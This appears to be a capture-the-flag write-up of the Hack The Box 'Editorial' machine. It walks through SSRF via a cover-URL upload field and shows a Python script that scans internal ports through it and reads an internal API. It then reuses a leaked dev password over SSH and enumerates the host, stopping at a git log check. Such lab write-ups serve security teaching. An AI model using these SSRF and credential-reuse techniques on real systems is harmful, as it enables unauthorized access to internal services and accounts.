


# editorial

## Engagement Notes

Season 5 - Week 9 challenge, easy linux machine.

TL;DR: Exploit the upload feature to reflect requests from inside the server to gain access to an internal service. Then use that access to steal credentials and then elevate permissions through poor repo secret hygeine.

This is a new method I'm trying for ensuring I document my journey and end up with some cleaner output. This was generated from a Jupyter notebook on my attack box.

## Setting up the environment

I find that my solo discovery of these challenges can take multiple resets. So to save some time, going to set up some global variables to use throughout my exploration and exploitation.


```python
from pprint import pprint


target = '10.129.129.148'
source = !ip address | grep tun | grep inet | tr "/" " " | awk '{print $2}'
```

# Enumeration

## Port Scan

Here we see 2 ports, 22 and 80. A quick connect to 22 shows it's just vanilla ssh, and port 80 shows an generic nginx fronted application.


```python
!docker run -it --rm -v $(pwd):/app/target rustscan -a $target

    Port scanning: Because every port has a story to tell.
    
    The config file is expected to be at "/home/rustscan/.rustscan.toml"
    File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
    10.129.206.182:22
    10.129.206.182:80
    Starting Script(s)
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-16 05:25 UTC
    Initiating Ping Scan at 05:25
    Scanning 10.129.206.182 [2 ports]
    Completed Ping Scan at 05:25, 0.09s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 05:25
    Completed Parallel DNS resolution of 1 host. at 05:25, 0.00s elapsed
    DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 3, TR: 3, CN: 0]
    Initiating Connect Scan at 05:25
    Scanning 10.129.206.182 [2 ports]
    Discovered open port 22/tcp on 10.129.206.182
    Discovered open port 80/tcp on 10.129.206.182
    Completed Connect Scan at 05:25, 0.09s elapsed (2 total ports)
    Nmap scan report for 10.129.206.182
    Host is up, received syn-ack (0.087s latency).
    Scanned at 2024-06-16 05:25:03 UTC for 0s
    
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack
    80/tcp open  http    syn-ack
    
    Read data files from: /usr/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```


Testing port 80, we get a redirect to a domain that doesn't resolve. This is a common HTB pattern and needs to be added to our /etc/hosts file or similar DNS lookup to ensure our calls all get sent with the right Host header.


```python
!curl -L http://$target # Follow redirect

    <!DOCTYPE html>
    <html lang="en">
    
        <!-- Basic -->
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">   
    
        <!-- Site Metas -->
        <title>Editorial Tiempo Arriba</title>  
    
        <!-- Bootstrap CSS -->
        <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    
    </head>
...
```

Example showing the Host header resolves as expected, even with our targets IP


```python
!curl http://$target -H "Host: editorial.htb"

...
            <ul class="nav col-12 col-lg-auto me-lg-auto mb-2 justify-content-center mb-md-0">
              <li><a href="/" class="nav-link px-2 text-secondary">Home</a></li>
              <li><a href="/upload" class="nav-link px-2 text-white">Publish with us</a></li>
              <li><a href="/about" class="nav-link px-2 text-white">About</a></li>
            </ul>
...
```

This just generates potential host records based on email domains found on the site and the redirect value.

```python
!echo "{target}\teditorial.htb"
!echo "{target}\ttiempoarriba.htb"
target_url = 'http://editorial.htb'
target_url2 = 'http://tiempoarriba.htb'
```

    10.129.129.148	editorial.htb
    10.129.129.148	tiempoarriba.htb


We can find the same information by crawling the site with zaproxy, but it's good practice in these challenges to enumerate early and often.


```python
!gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -o gobuster.txt -u $target_url 
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://editorial.htb
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /about                (Status: 200) [Size: 2939]
    /upload               (Status: 200) [Size: 7140]
    Progress: 3259 / 81644 (3.99%)^C
    
    [!] Keyboard interrupt detected, terminating.
    Progress: 3259 / 81644 (3.99%)
    ===============================================================
    Finished
    ===============================================================


Domain from contact form redirects to editorial.htb anyway


```python
!curl -LI http://$target -H "Host: tiempoarriba.htb"
```

    HTTP/1.1 301 Moved Permanently
    Server: nginx/1.18.0 (Ubuntu)
    Date: Sun, 16 Jun 2024 05:25:40 GMT
    Content-Type: text/html
    Content-Length: 178
    Connection: keep-alive
    Location: ]8;;http://editorial.htb/\http://editorial.htb

    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Sun, 16 Jun 2024 05:25:40 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 8577
    Connection: keep-alive
    


```python
!curl $target_url/about
!curl $target_url/upload
```

Main content of the about page is below
```    
      <!-- Responsive -->
      <div class="container col-xxl-8 px-4 py-5">
        <div class="row flex-lg-row-reverse align-items-center g-5 py-5">
          <div class="col-10 col-sm-8 col-lg-6">
            
          </div>
          <div class="col-lg-6">
            <h1 class="display-6 fw-bold lh-1 mb-3">Editorial Tiempo Arriba</h1>
            <br>
            <p class="lead">A team of ideas.</p>
            <p class="lead">A team of passion.</p>
            <p class="lead">A lot of novels and guions.</p>
            <p class="lead">A team as a family.</p><br><br>
          </div>
        </div>
      </div>
    
    </body>
    </html><!DOCTYPE html>
```
Main content of the upload page is below
```
...
            <form id="form-cover" method="post" enctype="multipart/form-data">
              <div class="row g-3">
    
                <div class="col-6">
                  <div style="float:left; width:10%;">
                    
                  </div>
    
                  <div style="float:right; width:90%;">
                    <input type="text" class="form-control" name="bookurl" id="bookurl" placeholder="Cover URL related to your book or">
                  </div>
                </div>
    
                <div class="col-5">
                  <input type="file" class="form-control" name="bookfile" id="bookfile">
                </div>
    
                <div class="col-1">
                  <button type="submit" class="form-control" id="button-cover">Preview</button>
                </div>
    
              </div>
            </form>
            <br>
    
            <script>
              document.getElementById('button-cover').addEventListener('click', function(e) {
                e.preventDefault();
                var formData = new FormData(document.getElementById('form-cover'));
                var xhr = new XMLHttpRequest();
                xhr.open('POST', '/upload-cover');
                xhr.onload = function() {
                  if (xhr.status === 200) {
                    var imgUrl = xhr.responseText;
                    console.log(imgUrl);
                    document.getElementById('bookcover').src = imgUrl;
    
                    document.getElementById('bookfile').value = '';
                    document.getElementById('bookurl').value = '';
                  }
                };
                xhr.send(formData);
              });
            </script>
    
            <form action="/upload" method='post' enctype="multipart/form-data">
              <div class="row g-3">
    
                <div class="col-12">
                  <label for="bookname" class="form-label">Book name</label>
                  <input type="text" class="form-control" name="bookname" placeholder="" value="" required="">
                  <div class="invalid-feedback">
                    Provide the book name
                  </div>
                </div>
    
                <div class="col-12">
                  <label for="bookintro" class="form-label">Tell us about your book</label>
                  <textarea class="form-control" name="bookintro" rows="4"></textarea>
                  <div class="invalid-feedback">
                    Brief description
                  </div>
                </div>
    
                <div class="col-12">
                  <label for="whyus" class="form-label">Why did you choose this publisher?</label>
                  <textarea class="form-control" name="whyus" rows="2"></textarea>
                  <div class="invalid-feedback">
                    Tell us about why did you select this publisher
                  </div>
                </div>
    
                <div class="col-12">
                  <label for="email" class="form-label">Contact Email</label>
                  <input type="email" class="form-control" name="email" placeholder="">
                  <div class="invalid-feedback">
                    Please enter a valid email address
                  </div>
                </div>
    
                <div class="col-12">
                  <label for="phone" class="form-label">Contact Phone</label>
                  <input type="text" class="form-control" name="phone" placeholder="" required="">
                  <div class="invalid-feedback">
                    Please enter your phone
                  </div>
                </div>
    
              </div>
              <br>
              <button class="w-100 btn btn-primary btn-lg" type="submit">Send book info</button>
            </form>
    
            <div class="py-5 text-center">
              <p class="lead"> We'll reach your book. Let us read and explore your idea and soon you will have news 📚</p>
            </div>
...
```

### Browsing the site

These are screenshots from the challenge site. There's not much functionality to go through unauthenticated. Just a home page, and about page, and an upload page with 2 forms. 





The first form in this last screenshot is particularly interesting, as using our own private server as the URL address, I can see requests coming from the server. 

In addition: I can see that those requests actually download and rename the contents to be displayed on our target. This means we have a valid Server Side Request Forgery(SSRF), which could potentially be used for Local File Inclusion(LFI) or Cross-Site Scripting(XSS) attacks.


```python
print(f'http://{source[0]}:8085') # To make it a bit easier to copy out the URL for the exploit
!python -m http.server 8085
```

    http://10.10.14.194:8085


    Serving HTTP on 0.0.0.0 port 8085 (http://0.0.0.0:8085/) ...
    10.129.129.148 - - [16/Jun/2024 12:36:20] "GET / HTTP/1.1" 200 -
    10.129.129.148 - - [16/Jun/2024 12:36:30] code 404, message File not found
    10.129.129.148 - - [16/Jun/2024 12:36:30] "GET /testthis HTTP/1.1" 404 -
    ^C
    
    Keyboard interrupt received, exiting.


### Example call to do SSRF

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 310
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryscnORoWBhxDxvabA
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

------WebKitFormBoundaryscnORoWBhxDxvabA
Content-Disposition: form-data; name="bookurl"

http://10.10.14.194:8085
------WebKitFormBoundaryscnORoWBhxDxvabA
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryscnORoWBhxDxvabA--
```


### Observations
* Uploads can be re-downloaded, but they are deleted off the remote server after 10-30 seconds.
* No other endpoints browse to my local webserver. (I.e. no users browsing to validate content.)
* Files larger than a few KB get blocked on upload.

--- 

* On upload, if an invalid destination/error destination (server unavailable/file:///etc) it returns the same splash image.jpeg
* On upload, if a valid endpoint availalbe, temporarily serves the contents via /static/images/<generated_guid>

I spent a lot of time here testing for LFI weaknesses but ultimately got nowhere. As a test for validity I tested to see if it was possible to call the site from itself, perhaps by calling it from localhost some different routes would be available, but the calls continously timed out.

After some time I decided to do a port scan with the reflected calls by using the /upload-cover endpoint to send a call to every port between 1 <> 10000 to see if anything came back. I started by copying the request from burpsuite as a curl command, and then converted it with some help from copilot to generate the /static/images url (when it should work), and then to call the /static/images/guid uri directly before the content expired.

The hope was to create a quick way to iterate through whatever content I wanted.

As you can see below (truncating the range for brevity of this writeup), I found an internal API on 5000.


```python
import requests
from concurrent.futures import ThreadPoolExecutor

#response = !curl --path-as-is -s -X $'POST' \
#    -H $'Host: editorial.htb' -H $'Content-Length: 305' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryscnORoWBhxDxvabA' -H $'Accept: */*' -H $'Origin: http://editorial.htb' -H $'Referer: http://editorial.htb/upload' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: keep-alive' \
#    --data-binary $'------WebKitFormBoundaryscnORoWBhxDxvabA\x0d\x0aContent-Disposition: form-data; name=\"bookurl\"\x0d\x0a\x0d\x0ahttp://127.0.0.1:80\x0d\x0a------WebKitFormBoundaryscnORoWBhxDxvabA\x0d\x0aContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryscnORoWBhxDxvabA--' \
#    $'http://editorial.htb/upload-cover' --output - | gunzip
# Python equivalent to this curl
ssrf = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': 'http://127.0.0.1:80'})
print(ssrf.text)

def test_port(port):
    if port % 500 == 0:
        print(f'Testing port {port}')
    response = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': f'http://127.0.0.1:{port}'})
    if 'jpeg' not in response.text:
        print(f'Port {port} is open')
        result = requests.get(f'http://editorial.htb/{response.text}')
        print(result.text)

with ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(test_port, range(4999, 5001)) # Truncated for demonstration purposes
    
```

    /static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
    Testing port 5000
    Port 5000 is open
    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
    


From the results of that API, it showed a swagger-esque list of endpoints that were available. So I simply call each through that same reflection method to see the contents.


```python
def ssrf_reflection(internal_target):
    response = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': f'{internal_target}'})
    if 'jpeg' not in response.text:
        result = requests.get(f'http://editorial.htb/{response.text}')
        return result
    else:
        print('failed to call resource')
        return None

# Map internal site

root_page = ssrf_reflection('http://127.0.0.1:5000')
pprint(root_page.json())

promotions = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/promos')
coupons = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/coupons')
new_authors = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/authors')
platform_use = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/messages/how_to_use_platform')
changelog = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata/changelog')
latest = ssrf_reflection('http://127.0.0.1:5000/api/latest/metadata')
```

```javascript
    {'messages': [{'promotions': {'description': 'Retrieve a list of all the '
                                                 'promotions in our library.',
                                  'endpoint': '/api/latest/metadata/messages/promos',
                                  'methods': 'GET'}},
                  {'coupons': {'description': 'Retrieve the list of coupons to use '
                                              'in our library.',
                               'endpoint': '/api/latest/metadata/messages/coupons',
                               'methods': 'GET'}},
                  {'new_authors': {'description': 'Retrieve the welcome message '
                                                  'sended to our new authors.',
                                   'endpoint': '/api/latest/metadata/messages/authors',
                                   'methods': 'GET'}},
                  {'platform_use': {'description': 'Retrieve examples of how to '
                                                   'use the platform.',
                                    'endpoint': '/api/latest/metadata/messages/how_to_use_platform',
                                    'methods': 'GET'}}],
     'version': [{'changelog': {'description': 'Retrieve a list of all the '
                                               'versions and updates of the api.',
                                'endpoint': '/api/latest/metadata/changelog',
                                'methods': 'GET'}},
                 {'latest': {'description': 'Retrieve the last version of api.',
                             'endpoint': '/api/latest/metadata',
                             'methods': 'GET'}}]}
```

```python
pprint(promotions.text)
pprint(coupons.text)
pprint(new_authors.text)
pprint(platform_use.text)
pprint(changelog.text)
pprint(latest.text)
```

```javascript
<SNIP NOTHING FOUND'
    '[{"2anniversaryTWOandFOURread4":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"12/02/2024"}},{"frEsh11bookS230":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"31/11/2023"}}]\n'
    ('{"template_mail_message":"Welcome to the team! We are thrilled to have you '
     "on board and can't wait to see the incredible content you'll bring to the "
     'table.\\n\\nYour login credentials for our internal forum and authors site '
     'are:\\nUsername: dev\\nPassword: dev080217_devAPI!@\\nPlease be sure to '
     "change your password as soon as possible for security purposes.\\n\\nDon't "
     "hesitate to reach out if you have any questions or ideas - we're always here "
     'to support you.\\n\\nBest regards, Editorial Tiempo Arriba Team."}\n')
<SNIP NOTHING FOUND'
    ('[{"1":{"api_route":"/api/v1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'El Tiempo Por '
     'Arriba"}},{"1.1":{"api_route":"/api/v1.1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Ed '
     'Tiempo '
     'Arriba"}},{"1.2":{"contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'Tiempo '
     'Arriba","endpoint":"/api/v1.2/metadata/"}},{"2":{"contact_email":"info@tiempoarriba.moc.oc","editorial":"Editorial '
     'Tiempo Arriba","endpoint":"/api/v2/metadata/"}}]\n')
<SNIP NOTHING FOUND'
```

I found some default dev credentials that I'll store for later, and then spent some time seeing if there was an authenticated API endpoint I might be able to abuse.

I also attempted to load other versions of the listed API version from the changelog endpoint without any luck. 


```python
dev_account = {'username': 'dev', 'password': 'dev080217_devAPI!@'}
versions = ['v1', 'v1.1', 'v1.2', 'v2', 'latest']
endpoints = ['messages/promos', 'messages/coupons', 'messages/authors', 'messages/how_to_use_platform', 'changelog', '']
for version in versions:
    for uri in endpoints:
        response = ssrf_reflection(f'http://127.0.0.1:5000/api/{version}/metadata/{uri}')
        print(f'API Version: {version} URI: {uri}')
        pprint(response.text)
```

```sh
    API Version: v1 URI: messages/promos
<SNIP NOTHING FOUND>
    API Version: v1 URI: messages/coupons
<SNIP NOTHING FOUND>
    API Version: v1 URI: messages/authors
<SNIP NOTHING FOUND>
    API Version: v1 URI: messages/how_to_use_platform
<SNIP NOTHING FOUND>
    API Version: v1 URI: changelog
<SNIP NOTHING FOUND>
    API Version: v1 URI: 
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: messages/promos
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: messages/coupons
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: messages/authors
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: messages/how_to_use_platform
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: changelog
<SNIP NOTHING FOUND>
    API Version: v1.1 URI: 
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: messages/promos
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: messages/coupons
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: messages/authors
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: messages/how_to_use_platform
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: changelog
<SNIP NOTHING FOUND>
    API Version: v1.2 URI: 
<SNIP NOTHING FOUND>
    API Version: v2 URI: messages/promos
<SNIP NOTHING FOUND>
    API Version: v2 URI: messages/coupons
<SNIP NOTHING FOUND>
    API Version: v2 URI: messages/authors
<SNIP NOTHING FOUND>
    API Version: v2 URI: messages/how_to_use_platform
<SNIP NOTHING FOUND>
    API Version: v2 URI: changelog
<SNIP NOTHING FOUND>
    API Version: v2 URI: 
<SNIP NOTHING FOUND>
    API Version: latest URI: messages/promos
<SNIP NOTHING FOUND>
    API Version: latest URI: messages/coupons
    '[{"2anniversaryTWOandFOURread4":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"12/02/2024"}},{"frEsh11bookS230":{"contact_email_2":"info@tiempoarriba.oc","valid_until":"31/11/2023"}}]\n'
    API Version: latest URI: messages/authors
    ('{"template_mail_message":"Welcome to the team! We are thrilled to have you '
     "on board and can't wait to see the incredible content you'll bring to the "
     'table.\\n\\nYour login credentials for our internal forum and authors site '
     'are:\\nUsername: dev\\nPassword: dev080217_devAPI!@\\nPlease be sure to '
     "change your password as soon as possible for security purposes.\\n\\nDon't "
     "hesitate to reach out if you have any questions or ideas - we're always here "
     'to support you.\\n\\nBest regards, Editorial Tiempo Arriba Team."}\n')
    API Version: latest URI: messages/how_to_use_platform
<SNIP NOTHING FOUND>
    API Version: latest URI: changelog
    ('[{"1":{"api_route":"/api/v1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'El Tiempo Por '
     'Arriba"}},{"1.1":{"api_route":"/api/v1.1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Ed '
     'Tiempo '
     'Arriba"}},{"1.2":{"contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial '
     'Tiempo '
     'Arriba","endpoint":"/api/v1.2/metadata/"}},{"2":{"contact_email":"info@tiempoarriba.moc.oc","editorial":"Editorial '
     'Tiempo Arriba","endpoint":"/api/v2/metadata/"}}]\n')
    API Version: latest URI: 
<SNIP NOTHING FOUND'
```

After a break and an embarassing amount of time, I couldn't find anything else in those APIs that would be helpful to me. Time to move on to the next port.


```python
!nc $target 22
```

    SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.7
    ^C
    


# Getting In

## SSH
With a bit of skepitism, I tried the credentials from the default dev account in SSH and found that I was allowed in!

```bash
(.venv) [20:13:56] tokugero :: pangolin  ➜  htb/rooms/editorial » ssh editorial.htb -l dev
dev@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jun 16 03:14:18 AM UTC 2024

  System load:           0.0
  Usage of /:            60.8% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.116.68
  IPv6 address for eth0: dead:beef::250:56ff:feb0:eae


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ 
```

From here I needed to deviate from my notebook a bit to use the interactive terminal more cleanly. In actions where I can get an output, I replicated the commands in Python to show the results (and to generate the output more quickly for this writeup). For anything that was a write action, I included the output from the terminal manually.


```python
import paramiko

ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect(target, username=dev_account['username'], password=dev_account['password'])

def run_command(command):
    stdin, stdout, stderr = ssh.exec_command(command)
    return stdout.readlines()
```

Logging into the system, I can see a user.txt that's readable by me, and the first flag. I don't have the output here, but a `sudo -l` also showed this user had no special suid rights to abuse.


```python
pprint(run_command('ls -alhn'))
pprint(run_command('cat user.txt'))
```
```
    ['total 32K\n',
     'drwxr-x--- 4 1001 1001 4.0K Jun  5 14:36 .\n',
     'drwxr-xr-x 4    0    0 4.0K Jun  5 14:36 ..\n',
     'drwxrwxr-x 3 1001 1001 4.0K Jun  5 14:36 apps\n',
     'lrwxrwxrwx 1    0    0    9 Feb  6  2023 .bash_history -> /dev/null\n',
     '-rw-r--r-- 1 1001 1001  220 Jan  6  2022 .bash_logout\n',
     '-rw-r--r-- 1 1001 1001 3.7K Jan  6  2022 .bashrc\n',
     'drwx------ 2 1001 1001 4.0K Jun  5 14:36 .cache\n',
     '-rw-r--r-- 1 1001 1001  807 Jan  6  2022 .profile\n',
     '-rw-r----- 1    0 1001   33 Jun 16 04:29 user.txt\n']
    ['984907e1f4123d6e0c10e126767b9e1e\n']
```

ABE, Always Be Enumerating. Lets get the list of users, and open ports in case there's anything else worth exploiting later.

Additionally, in the home directory I found an empty `apps` folder with a `.git` hidden folder here-in. `git status` showed me the non-committed deletion of the app directory. I wonder what the user has to hide here.


```python
pprint(run_command('cat /etc/passwd'))
pprint(run_command('netstat -tulnp | grep LISTEN'))
pprint(run_command('cd ~/apps && git status && git restore . && ls -alhn'))
```

```javascript
    ['root:x:0:0:root:/root:/bin/bash\n',
<snip>
     'prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash\n',
<snip>
     'dev:x:1001:1001::/home/dev:/bin/bash\n',
<snip>
     '/-G:x:1002:1002::/home//-G:/bin/sh\n']
...
    ['tcp        0      0 127.0.0.53:53           0.0.0.0:*               '
     'LISTEN      -                   \n',
     'tcp        0      0 127.0.0.1:5000          0.0.0.0:*               '
     'LISTEN      -                   \n',
     'tcp        0      0 0.0.0.0:80              0.0.0.0:*               '
     'LISTEN      -                   \n',
     'tcp        0      0 0.0.0.0:22              0.0.0.0:*               '
     'LISTEN      -                   \n',
     'tcp6       0      0 :::22                   :::*                    '
     'LISTEN      -                   \n']
...
    ['On branch master\n',
     'Changes not staged for commit:\n',
     '  (use "git add/rm <file>..." to update what will be committed)\n',
     '  (use "git restore <file>..." to discard changes in working directory)\n',
     '\tdeleted:    app_api/app.py\n',
     '\tdeleted:    app_editorial/app.py\n',
<snip>
     '\tdeleted:    app_editorial/templates/upload.html\n',
     '\n',
     'no changes added to commit (use "git add" and/or "git commit -a")\n',
     'total 20K\n',
...
     'drwxrwxr-x 5 1001 1001 4.0K Jun 16 05:27 .\n',
     'drwxr-x--- 4 1001 1001 4.0K Jun  5 14:36 ..\n',
     'drwxrwxr-x 2 1001 1001 4.0K Jun 16 05:27 app_api\n',
     'drwxrwxr-x 4 1001 1001 4.0K Jun 16 05:27 app_editorial\n',
     'drwxr-xr-x 8 1001 1001 4.0K Jun 16 05:27 .git\n']
```

Since there's a git repo, we might as well check the log output.


```python
pprint(run_command('cd ~/apps && git log'))
```

